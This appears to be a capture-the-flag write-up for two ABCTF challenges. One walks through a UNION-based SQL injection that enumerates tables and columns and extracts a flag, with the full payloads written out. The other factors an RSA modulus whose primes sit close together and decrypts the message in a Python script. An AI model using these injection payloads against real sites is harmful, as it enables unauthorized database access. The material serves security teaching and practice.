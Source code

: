 ## Reunion - 150

Input an id number like $2$ shows a records: <http://yrmyzscnvh.abctf.xyz/web8/?id=2>.
This id number is injectable like `0 or 1 = 1`: <http://yrmyzscnvh.abctf.xyz/web8/?id=0+or+1+%3D+1>.

Use `union`. It is used like `1 union select 1,2,3,4` and shows some valuse.
List the tables with `1 union select table_name,2,3,4 from information_schema.tables where table_schema = database()`, then you'll know that `w0w_y0u_f0und_m3` exists.
Next, see the columns of it with `1 union select column_name,2,3,4 from information_schema.columns where table_name = 0x7730775f7930755f6630756e645f6d33`.
`0x7730775f7930755f6630756e645f6d33` is the hex encoded `w0w_y0u_f0und_m3`, because `'` and `"` are not available in this injection (see the result of `0 or 'hoge' = 'hoge'`).
Anyway, there is the column `f0und_m3` and `1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3` tell you the flag is `abctf{uni0n_1s_4_gr34t_c0mm4nd}`.

## Sexy RSA - 160

RSA cipher is strong. If only $c,n,e$ are given, $p,q$ must be gussable.
For this $n$, $p, q = \lfloor\sqrt{n}\rfloor \pm 3$.

``` python
#!/usr/bin/env python3
c = 293430917376708381243824815247228063605104303548720758108780880727974339086036691092136736806182713047603694090694712685069524383098129303183298249981051498714383399595430658107400768559066065231114145553134453396428041946588586604081230659780431638898871362957635105901091871385165354213544323931410599944377781013715195511539451275610913318909140275602013631077670399937733517949344579963174235423101450272762052806595645694091546721802246723616268373048438591
n = 1209143407476550975641959824312993703149920344437422193042293131572745298662696284279928622412441255652391493241414170537319784298367821654726781089600780498369402167443363862621886943970468819656731959468058528787895569936536904387979815183897568006750131879851263753496120098205966442010445601534305483783759226510120860633770814540166419495817666312474484061885435295870436055727722073738662516644186716532891328742452198364825809508602208516407566578212780807
e = 65537

def sqrt(x):
    low = -1
    high = c+1
    while low + 1 < high:
        m = (low + high) // 2
        y = m*m
        if y < x:
            low = m
        else:
            high = m
    m = high
    return m

r = sqrt(n)
p = r + 3
q = r - 3
assert n == p * q

import gmpy2
from Crypto.PublicKey import RSA
d = lambda p, q, e: int(gmpy2.invert(e, (p-1)*(q-1)))

key = RSA.construct((n, e, d(p,q,e)))
import binascii
print(binascii.unhexlify(hex(key.decrypt(c))[2:]).decode())
```
